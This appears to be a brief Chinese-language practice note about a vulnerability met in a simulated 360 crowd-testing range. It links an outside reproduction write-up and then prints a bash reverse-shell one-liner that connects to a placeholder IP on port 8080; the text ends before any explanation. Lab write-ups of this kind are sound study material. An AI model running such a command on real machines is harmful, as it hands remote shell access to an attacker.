 之前在360众测的仿真实战靶场中碰到的

漏洞复现比较简单，参见如下文章：  
https://www.cnblogs.com/mke2fs/p/12718499.html

其中，对反弹shell的命令做一下解释：  
```
bash -i >& /dev/tcp/x.x.x.x/8080 0>&1
```
